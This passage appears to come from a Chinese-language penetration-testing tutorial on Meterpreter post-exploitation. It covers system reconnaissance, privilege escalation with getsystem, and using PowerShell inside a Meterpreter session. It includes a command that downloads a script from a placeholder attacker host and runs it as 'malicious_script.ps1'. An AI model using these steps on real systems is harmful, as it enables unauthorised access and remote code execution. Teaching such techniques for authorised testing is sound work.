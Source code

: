 ### 系统信息收集

我们可以使用 Meterpreter 通过 `sysinfo` 和 `getsystem` 命令对目标系统进行分析。这些命令会生成一份详细报告，记录目标系统的功能：

```
 # Display system information
sysinfo
# Gather information about the target machine
getsystem
```

### 权限提升

我们可以使用 Meterpreter 加载支持各种功能的模块。接下来，我们将使用 Meterpreter 加载一个模块，尝试进行权限提升：

```
 # Attempt privilege escalation using known exploits
use post/windows/escalate/getsystem
```

## 集成 PowerShell 以增强功能

为了增强后期利用能力，我们可以在 Meterpreter shell 中利用 PowerShell。这使我们能够利用 PowerShell 的广泛功能进行更加隐蔽和灵活的操作：

```
 # Launch PowerShell within Meterpreter
powershell_shell
```

现在，我们在 Meterpreter shell 中有了一个 PowerShell 提示符：

+   使用 PowerShell 执行命令：

    ```
     # Execute PowerShell commands
    (Get-WmiObject Win32_ComputerSystem).Name
    ```

    这个示例展示了如何在 Meterpreter 会话中使用 PowerShell 获取计算机名。

+   下载并执行 PowerShell 脚本：

    ```
     # Download a PowerShell script
    Invoke-WebRequest -Uri http://attacker_IP/script.ps1 -OutFile C:\malicious_script.ps1
    # Execute the downloaded script
    C:\malicious_script.ps1
    ```

    这个示例展示了如何在 Meterpreter 中使用 PowerShell 下载并执行恶意脚本。

## 混淆 PowerShell 命令
